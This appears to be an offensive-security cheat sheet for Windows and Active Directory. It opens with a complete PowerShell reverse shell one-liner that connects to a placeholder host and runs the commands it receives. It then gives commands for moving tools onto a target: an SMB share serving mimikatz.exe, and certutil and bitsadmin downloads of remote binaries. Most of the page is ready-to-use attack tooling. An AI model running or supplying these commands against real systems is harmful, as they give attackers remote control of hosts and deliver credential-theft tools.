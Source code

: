 # Reverse Shell

```$client = New-Object System.Net.Sockets.TCPClient("$IP$",$PORT$);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()```

# Formation AD Security 101

* https://github.com/cfalta/adsec
* https://beta.hackndo.com/
* https://lolbas-project.github.io/

# File Transfer 

## SMB

* sudo python3 smbserver.py ROPNOP /mnt/toto
* net view \\10.9.68.115
* COPY \\10.9.68.115\ROPNOP\mimikatz.exe .

## HTTP

* certutil.exe -urlcache -split -f "https://ip/binaire" xxx.exe
* bitsadmin /transfer myDownloadJob /download /priority normal http://downloadsrv/10mb.zip c:\10mb.zip

